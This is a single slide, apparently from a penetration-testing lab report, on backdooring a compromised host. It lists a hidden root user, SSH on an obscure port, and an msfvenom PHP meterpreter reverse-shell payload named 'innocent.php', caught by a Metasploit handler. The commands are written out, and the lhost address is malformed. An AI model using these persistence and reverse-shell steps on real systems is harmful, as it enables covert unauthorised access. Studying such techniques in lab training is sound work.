

# Backdooring the Target
Backdoor Overview
Backdoors for persistence:
Creation of shadow user with root access for reentry
Open obscure unused ports and permit SSH on said ports
Create a malicious drop using MSFVenom to create reverse shell
Implementation:
Root access provided ability to change SSH configs and produce new users at the root level
Malicious MSFVenom drop though phishing and metasploit
Connection Method
ssh <username>@192.168.1.110 -p 8765
msfvenom -p /php/meterpreter/reverse_tcp lhost=192.168.90 lport=4444 > innocent.php
msfconsole -> exploit/multi/handler
28